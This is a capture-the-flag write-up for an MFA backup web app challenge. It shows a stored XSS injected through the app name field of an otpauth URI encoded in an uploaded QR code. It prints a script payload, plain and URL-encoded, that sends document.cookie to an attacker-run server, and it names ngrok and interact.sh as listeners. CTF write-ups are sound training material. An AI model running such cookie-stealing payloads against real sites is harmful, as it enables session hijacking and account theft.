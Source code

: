 # Secure MFA Backup

Have you seen the news? Google Authenticator will finally support backups of our MFA codes.
My app did this years ago, check it out! 
I built it with a security in mind so I have a certified auditor check it every once in a while.

> Be aware, that the auditor will delete any dangerous code when they see it

## Solution

The app is generally safe. On functionality that can be used is an upload. When you upload QR code with a proper OTP format, the name of the App won't be escaped.

Example payload:

```
<script>document.location="http://127.0.0.1:1337/" + btoa(document.cookie)</script>
```

For location you should use your own webserver that will get the request (ngrok, interact.sh, collaborator etc.)

Then you should include URL-encoded payload in the a valid otpauth URI:

```
otpauth://totp/App:%3Cscript%3Edocument.location%3D%22http%3A%2F%2F127.0.0.1%3A1337%2F%22%20%2B%20btoa%28document.cookie%29%3C%2Fscript%3E?secret=JBSWY3DPEHPK3PXP&issuer=App
```

All you have to do is make a QR code from this, upload it and wait for the request with cookie which holds the flag.
